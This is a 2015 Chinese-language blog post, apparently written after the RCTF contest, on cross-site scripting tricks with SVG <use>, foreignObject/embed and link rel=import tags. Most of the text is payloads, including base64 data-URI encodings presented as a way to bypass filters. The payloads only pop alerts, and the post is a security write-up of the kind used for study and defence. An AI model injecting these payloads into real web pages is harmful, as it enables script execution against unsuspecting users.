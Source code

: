 title: xss link&svg黑魔法
date: 2015-11-19 23:49:07
tags:
- Blogs
- xss
categories:
- Blogs
---
在搞rctf的时候，无意间搜到了一些黑魔法，link and svg标签的奇效...

<!--more-->

# svg
对于svg，之前一直知道的仅仅只有svg可以不用交互，这样js伪协议和类似于
```<svg/onload=alert(1)>```这样的标签就可以执行，这次发现一个神奇的东西，虽然只能在firefox下执行，但是仍然是可用的。
```
<svg>
<use xlink:href='external.svg#rectangle' />
</svg>
```
如果存在external.svg，而且其中存在这样的代码
```
<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```
这样就会出现100*100的黑块，点击就会弹窗，但是事实上并没有这么简单，上面的payload其实改成这样：
```
<svg>
<use xlink:href="data:image/svg+xml;base64,
PHN2ZyBpZD0icmVjdGFuZ2xlIiB4bWxucz0iaHR0cDo
vL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW
5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rI
iAgICB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCI+DQo8
YSB4bGluazpocmVmPSJqYXZhc2NyaXB0OmFsZXJ0KGx
vY2F0aW9uKSI+PHJlY3QgeD0iMCIgeT0iMCIgd2lkdG
g9IjEwMCIgaGVpZ2h0PSIxMDAiIC8+PC9hPg0KPC9zd
mc+#rectangle" />
</svg>
```
这样就不用存在别的svg文件，就可以执行所需要的js代码完成xss。
但是这样仍然需要点击才能出发xss。
然而在svg中支持

```
<foreignObject>
```

这样的标签,包括
```
<embed>
```
所以上面的payload就可以改成

```
<svg id="rectangle"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">

<script>alert(1)</script>

<foreignObject width="100" height="50"
requiredExtensions="http://www.w3.org/1999/xhtml">

<embed xmlns="http://www.w3.org/1999/xhtml" 
src="javascript:alert(location)" />

</foreignObject>
</svg>
```
base64一下就是
```
<svg>
<use xlink:href="data:image/svg+xml;base64,
PHN2ZyBpZD0icmVjdGFuZ2xlIiB4bWxucz0iaHR0cD
ovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhs
aW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW
5rIiAgICB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCI+
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg0KIDxmb3
JlaWduT2JqZWN0IHdpZHRoPSIxMDAiIGhlaWdodD0i
NTAiDQogICAgICAgICAgICAgICAgICAgcmVxdWlyZW
RFeHRlbnNpb25zPSJodHRwOi8vd3d3LnczLm9yZy8x
OTk5L3hodG1sIj4NCgk8ZW1iZWQgeG1sbnM9Imh0dH
A6Ly93d3cudzMub3JnLzE5OTkveGh0bWwiIHNyYz0i
amF2YXNjcmlwdDphbGVydChsb2NhdGlvbikiIC8+DQ
ogICAgPC9mb3JlaWduT2JqZWN0Pg0KPC9zdmc+#rectangle" />
</svg>
```

# link
在这次比赛的writeup中见到的是这样的link标签，比上面的方式好用很多，因为可以bypass最新版chrome。
payload大概是长这样的
```
<link rel="import" href="data:text/html;base64,PHNjcmlwdD5kZWxldGUgYWxlcnQ7YWxlcnQoIkhlbGxvIik7PC9zY3JpcHQ+">
```
href的地方本身就是可以插入js代码的，但是通过base64加密，可以bypass各种奇怪的过滤

这里很多用到了data类型的url，然而还有各种姿势
```
data:,<文本数据>  
data:text/plain,<文本数据>  
data:text/html,<HTML代码>  
data:text/html;base64,<base64编码的HTML代码>  
data:text/css,<CSS代码>  
data:text/css;base64,<base64编码的CSS代码>  
data:text/javascript,<Javascript代码>  
data:text/javascript;base64,<base64编码的Javascript代码>  
data:image/gif;base64,base64编码的gif图片数据  
data:image/png;base64,base64编码的png图片数据  
data:image/jpeg;base64,base64编码的jpeg图片数据  
data:image/x-icon;base64,base64编码的icon图片数据  
```

